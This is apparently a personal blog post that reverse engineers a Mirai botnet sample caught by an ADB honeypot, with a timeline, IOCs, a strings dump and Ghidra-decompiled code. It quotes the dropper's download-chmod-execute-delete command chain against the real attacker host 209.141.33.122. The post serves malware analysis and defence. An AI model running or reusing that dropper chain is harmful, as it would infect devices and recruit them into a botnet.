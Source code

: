 ```yaml
---
title: Analysis of Mirai Malware
description: Reverse Engineering Mirai Botnet
slug: mirai_botnet
date: 2022-01-04 00:00:00+0000
image: https://m.media-amazon.com/images/I/41ZJaKEDzNL._AC_SX355_.jpg
categories:
    - Reverse Engineering
tags:
    - Honeypot
    - Botnet
---
```

## Intro 
I recently found out Google Cloud offers $300 for first time users, so I figured what better way to spend that than deploying a honeypot? While this blog post won't go into detail on deploying one yourself (keep at eye on my [docs](/docs/welcome) for a that) it will go into detail analyzing a malware sample that I discovered being deployed against it.

<!--truncate-->

## Timeline and Recon
On January 4th 2022 at ~20:30 UTC my honeypot deployed in Oregon was attacked by 205.185.123.62 hosted in [Las Vegas, Nevada.](https://www.iplocationtools.com/205.185.123.62)  It's hosted by "Frantech Solutions" which a cursoury google search gives results such as "FranTech Solutions is **a high fraud risk ISP**.." and [scamalytics](https://scamalytics.com/ip/isp/frantech-solutions) gives it a score of 64.

My honeypot was attacked a total of 24 times from this IP address. Starting at 20:30 UTC and ending at 11:00 UTC. 

## Attack Vector
This attack was caught by the [ADBHoney](https://github.com/huuck/ADBHoney) service running on my honeypot. ADBHoney describes itself as a "Low interaction honeypot designed for Android Debug Bridge over TCP/IP." Now I have some experience with ADB in a prior CTF so I understood a small bit of what this honeypot does. ADB is the Andriod Debug Bridge. It's essentially a protocol/tool that allows developers to communicate with andriod devices. It's used prominately in the emulation part of Andriod Studio. Unfortunately for us, the TCP section of the ADB protocol **does not** have any kind of authentication, leaving it open to attacks. This is what the honeypot sets up to gather samples.

## Payload

![image](initial_payload.png)
*Figure 1: Inital Attack*

As we can see in Figure 1, the inital attack involves moving into the tmp directory, using [busybox](https://busybox.net/) to execute wget to get another sample and executes it. It repeats this twice, opting for curl for the second sample. Switching tools like that is common in malware droppers, allowing it to be ran on more hosts. A potential target could be missing either curl or wget, but missing both would be unlikely. Both **w.sh** and **c.sh** are essentially the same file as seen below. The only difference being what tool is used to download the next stage.


![image](wget.png)
*Figure 2: wget method*

![image](curl.png)
*Figure 3: curl method*

Here we can see how the actual malware sample is being downloaded. What makes this particular malware sample interesting is how it has different exectuables for a large set of instruction sets, ranging from ARM to SH4 to MIPS and even sparc. The first part of each line is downloading the malware `curl htt[p]s://209.141.33.122/arm`, then setting it as executable `chmod 777 arm`, then executing it with the argument of "android" `./arm android`. The final part of the script `rm $0` is deleting the script that was just ran in an effort to evade analysis. 

## Detection Rate and VirusTotal

Uploading the MIPS sample to [VirusTotal](https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection) gives it a detection ratio of 36/56 and most AV vendors classify this sample as belonging to the [Mirai](https://en.wikipedia.org/wiki/Mirai_(malware)) botnet. It was first seen on December 29th, 2021.  

VirusTotal Link: https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection  

## IOCs
If you see network activity to these IPs/Domains or system activity relating to them, you might be infected.  
IPs: 209.141.33.122  
Domains: bots1.firewalla1337.cc, scan1.firewalla1337.cc  
System Activity: Creation of binaries in `/data/local/tmp` with the names of common instruction sets. Execution of binaries with the argument of `android`.  
## Analysis

Note: My reversing skills are still in its infancy, so please bear with me.

The first thing I did to this binary was run strings against it. This gave me some interesting findings seen below:

### Strings
`/dev/null`  
`POST /cdn-cgi/`   
`HTTP/1.1\r\nUser-Agent:`   
`\r\nHost:`   
`Cookie: `    
`bots1.firewalla1337.cc`   
`209.141.33.122`   
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ012345678`   
`dadlcldadg`    
`scan1.firewalla1337.cc`    

Lets open this sample in ghidra and look into it a bit further.

The only function I could make sense of was what to me looks like a domain resolution function here:
```c
void FUN_00410544(void)

{
  byte *pbVar1;
  uint uVar2;
  undefined2 *puVar3;
  int iVar4;
  
  pbVar1 = (byte *)FUN_00411908("bot[s]1.firewalla1337.cc");
  if (pbVar1 != (byte *)0x0) {
    iVar4 = *(int *)(pbVar1 + 4);
    uVar2 = FUN_00411518();
    if (*pbVar1 == 0) {
      trap(0x1c00);
    }
    DAT_0045d784 = *(undefined4 *)((uVar2 % (uint)*pbVar1) * 4 + iVar4);
    FUN_0041189c(pbVar1);
    FUN_00414e24(1);
    puVar3 = (undefined2 *)FUN_00414d0c(1,0);
    DAT_0045d782 = *puVar3;
                    /* WARNING: Could not recover jumptable at 0x00410634. Too many branches */
                    /* WARNING: Treating indirect jump as call */
    FUN_00414d40(1);
    return;
  }
  DAT_0045d784 = FUN_00417c20("209.1[4]1.33.122");
  return;
}
```
*Brackets in IP address and Domain added by myself*

Both the domain name and IP address are hardcoded, but these are both the same address of the machine where the attack originated from meaning we dont have the C2's address.

There are references to POSTs and setting URL variables in the malware which tells me that's most likely the way communication is handled between the C2 and the bots.  

## Closing Thoughts

Unfortunately this is the extent of my analysis of this sample. My reversing skills arent where they should be in order to properly reverse this sample. I would try dynamic analysis and see what domains/IPs this sample tries to contact, but the x86 version was not available and I do not have any spare system capable of executing the other instruction sets besides my Raspberry Pi4s, so lookout for a potential part 2 of this post where I execute the malware in a lab environment.

Thank you so much for reading this post. I learned a lot while investigating this sample and hopefully you learned something new reading this blog post. I hope to post more about my activities with my honeypot so keep an eye out for those posts when they drop.   

As always, if you have any feedback please don't hesitate to contact me at [my email.](mailto:nathan@nburns.tech?Subject=Reverse_Blogpost)

Nathan Burns